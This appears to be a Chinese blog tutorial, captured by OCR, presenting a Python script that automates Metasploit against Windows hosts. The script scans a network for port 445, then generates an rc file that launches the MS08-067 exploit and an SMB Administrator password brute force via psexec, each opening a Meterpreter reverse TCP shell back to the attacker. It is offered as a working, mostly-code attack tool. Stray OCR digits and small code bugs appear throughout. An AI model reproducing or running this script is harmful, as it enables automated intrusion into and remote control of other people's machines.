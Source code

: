 Metasploit是一款强大的[漏洞扫描](https://so.csdn.net/so/search?q=%E6%BC%8F%E6%B4%9E%E6%89%AB%E6%8F%8F&spm=1001.2101.3001.7020)和利用工具，编写Python脚本与Metasploit进行交互，可以自动化的扫描和利用漏洞。

相关文章：[Metasploit框架的使用](https://blog.csdn.net/qq_36119192/article/details/83215257)

在脚本中，我们首选需要利用 [nmap](https://so.csdn.net/so/search?q=nmap&spm=1001.2101.3001.7020) 模块扫描目标主机是否开放了445端口，我们写了一个 findTarget() 函数，来扫描给定ip或者给定网段中开放了目标端口的主机，返回开放了445端口的主机列表。445端口是作为SMB文件共享协议的端口，在这个端口上，经常爆发出各种高危的漏洞。 相关文章：[文件共享协议之139/445端口](https://blog.csdn.net/qq_36119192/article/details/83279527#TCP139%E3%80%81445%E7%AB%AF%E5%8F%A3)

```
def findTarget(Hosts):              #扫描网段范围内开放445端口的主机      
    nmScan=nmap.PortScanner()      
    nmScan.scan(Hosts,'445')      
    targets=[]      
    for t in nmScan.all_hosts():      
        if nmScan[t].has_tcp(445):  #如果445端口提供了协议      
            state=nmScan[t]['tcp'][445]['state']  #查看445端口的状态      
            if state=='open':      
                print '[+]Found Target Host:'+t      1
                targets.append(t)       1
    return targets         #返回开放445端口的主机列表
```


Metasploit提供了一个被称为Meterpreter的高级动态载荷，它是一种后渗透工具。当渗透进目标主机后，Meterpreter会主动连接目标主机，并提供大量 分析和控制主机的参数。我们写了setupHandler()函数，使用 exploit/multi/handler监听数据，我们设置payload为 windows/x64/meterpreter/reverse\_tcp 。我们还需要设置一个全局变量DisablePayloadHandler，其作用是：我们已经新建了一个监听器，以后所有的主机都不必重复新建监听器。相关文章：[Meterpreter之exploit/multi/handler木马](https://mp.csdn.net/postedit/83869141)

```
def setupHandler(configFile,lhost,lport):               #监听被攻击的主机      
    configFile.write('use exploit/multi/handler\n')     #使用      
    configFile.write('set PAYLOAD windows/meterpreter/reverse_tcp \n')  #设定payload载荷      
    configFile.write('set LPORT '+str(lport)+'\n')      #设置监听的端口      
    configFile.write('set LHOST '+lhost+'\n')           #设置监听的主机，也就是我们的主机      
    configFile.write('set DisablePayloadHandler 1\n')  #不重新监听      
    configFile.write('exploit  -j  -z\n')              #监听  j选项是将所有连接的会话保持在后台 -z不与任务进行即时交换
```


当脚本能够在目标主机上执行漏洞利用代码时，配置函数将向Metasploit  rc 脚本中写入用于生成漏洞利用代码的目标主机、本地地址和端口。该函数还将把使用哪个漏洞利用代码的指令也写入rc脚本文件中，这里我们使用 MS\_08067\_netapi漏洞。此外，该函数还需要设置Payload、Lport。最后，该脚本发送一条指令在同一个任务(job)的上下文环境中( -j )，不与任务进行即时交互的条件下 ( -z ) 利用对目标计算机上的漏洞

```
def confickerExploit(configFile,target,lhost,lport):       #漏洞利用      
    configFile.write('use exploit/windows/smb/ms08_067_netapi\n')  #漏洞利用代码      
    configFile.write('set PAYLOAD windows/meterpreter/reverse_tcp\n')      
    configFile.write('set RHOST '+str(target)+'\n')              #设定参数      
    configFile.write('set LPORT '+str(lport)+'\n')      
    configFile.write('set LHOST '+lhost+'\n')      
    configFile.write('exploit \n')
```


尽管如此我们已经可以成功的在被黑的主机上运行漏洞利用代码，但一旦目标主机安装了最新的安全补丁便可以阻止该代码被执行，因此我们的脚本还需要另一种攻击方式，如暴力破解SMB用户名和密码，以此获取在目标主机上远程执行一个进程的权限。输入smbBrute() 函数的参数有：Metasploit 脚本文件、目标主机、包含密码列表的另一个文件、本地地址、端口。用户名默认为windows管理员Administrator，打开密码列表文件，对于每一个密码，都会生成一个用来远程执行进程的Metasploit脚本，如果密码正确则远程执行进程的代码就会运行一个shell到攻击者本地地址对应的端口。

```
def smbBrute(configFile,target,passwdFile,lhost,lport):      
    username='Administrator'      
    pF=open(passwordFile,'r')      
    for password in pF.readlines():      
        password=password.strip('\n')      
        configFile.write('use exploit/windows/smb/psexec\n')      
        configFile.write('set SMBUser '+str(username)+'\n')      
        configFile.write('set SMBPass '+str(password)+'\n')      
        configFile.write('set RHOST '+str(target)+'\n')      1
        configFile.write('set PAYLOAD windows/meterpreter/reverse_tcp\n')      1
        configFile.write('set LPORT '+str(lport)+'\n')      1
        configFile.write('set LHOST '+lhost+'\n')      1
        configFile.write('exploit -j -z\n')
```


最后，对上面所有的代码进行整合。

```
# -*- coding: utf-8 -*-      
"""      
Created on Sun Nov  4 16:11:33 2018      
@author: 小谢      
"""      
import os      
import optparse      
import sys      
import nmap      1
def findTarget(Hosts):              #扫描网段范围内开放445端口的主机      1
    nmScan=nmap.PortScanner()      1
    nmScan.scan(Hosts,'445')      1
    targets=[]      1
    for t in nmScan.all_hosts():      1
        if nmScan[t].has_tcp(445):  #如果445端口提供了协议      1
            state=nmScan[t]['tcp'][445]['state']  #查看445端口的状态      1
            if state=='open':      1
                print '[+]Found Target Host:'+t      1
                targets.append(t)       2
    return targets         #返回开放445端口的主机列表      2
def setupHandler(configFile,lhost,lport):               #监听被攻击的主机      2
    configFile.write('use exploit/multi/handler\n')     #使用      2
    configFile.write('set PAYLOAD windows/meterpreter/reverse_tcp \n')  #设定payload载荷      2
    configFile.write('set LPORT '+str(lport)+'\n')      #设置监听的端口      2
    configFile.write('set LHOST '+lhost+'\n')           #设置监听的主机，也就是我们的主机      2
    configFile.write('set DisablePayloadHandler 1\n')  #不重新监听      2
    configFile.write('exploit  -j  -z\n')                 #监听  j选项是将所有连接的会话保持在后台 -z不与任务进行即时交换       2
def confickerExploit(configFile,target,lhost,lport):       #漏洞利用      3
    configFile.write('use exploit/windows/smb/ms08_067_netapi\n')  #漏洞利用代码      3
    configFile.write('set PAYLOAD windows/meterpreter/reverse_tcp\n')      3
    configFile.write('set RHOST '+str(target)+'\n')              #设定参数      3
    configFile.write('set LPORT '+str(lport)+'\n')      3
    configFile.write('set LHOST '+lhost+'\n')      3
    configFile.write('exploit \n')      3
def smbBrute(configFile,target,passwdFile,lhost,lport):          #暴力破解SMB口令      3
    username='Administrator'      3
    pF=open(passwordFile,'r')      3
    for password in pF.readlines():      4
        password=password.strip('\n')      4
        configFile.write('use exploit/windows/smb/psexec\n')      4
        configFile.write('set SMBUser '+str(username)+'\n')      4
        configFile.write('set SMBPass '+str(password)+'\n')      4
        configFile.write('set RHOST '+str(target)+'\n')      4
        configFile.write('set PAYLOAD windows/meterpreter/reverse_tcp\n')      4
        configFile.write('set LPORT '+str(lport)+'\n')      4
        configFile.write('set LHOST '+lhost+'\n')      4
        configFile.write('exploit -j -z\n')      4
def main():      5
    configFile=open('meta.rc','w')  #以写入方式打开配置文件      5
    usage='[-]Usage %prog -H <RHOSTS> -l/-L <LHOST> [-p/-P <LPORT> -F/-f <password File>]'      5
    parser=optparse.OptionParser(usage)      5
    parser.add_option('-H',dest='target',type='string',help='target host')      5
    parser.add_option('-p','-P',dest='lport',type='string',help='listen port')      5
    parser.add_option('-l','-L',dest='lhost',type='string',help='listen address')      5
    parser.add_option('-F','-f',dest='passwdFile',type='string',help='password file')      5
    (options,args)=parser.parse_args()      5
    passwdFile=options.passwdFile      5
    target=options.target      6
    lport=options.lport      6
    lhost=options.lhost      6
    if (target==None)|(lhost==None):      6
        print parser.usage      6
        exit(0)      6
    if options.lport==None:      6
        lport=='2333'      6
    targets=findTarget(options.target)           #寻找目标      6
    setupHandler(configFile,lhost,lport)         #设置配置文件      6
    for target in targets:                       #逐个攻击      7
        confickerExploit(configFile,target,lhost,lport)      7
        if passwdFile!=None:      7
            smbBrute(configFile,target,passwdFile,lhost,lport)      7
        configFile.close()      7
        os.system('msfconsole -r meta.rc')  #启动metasploit并读取配置文件      7
if __name__=='__main__':      7
    main()
```


当我们运行脚本，指定好参数后，脚本就会扫描目标主机中开放了445端口的主机，将其加入到 targets 列表中，然后将要攻击的代码写入 meta.rc 配置文件中，最后启动MSF读取配置文件进行攻击！

![](https://img-blog.csdnimg.cn/20181112085141799.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20181112085333279.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)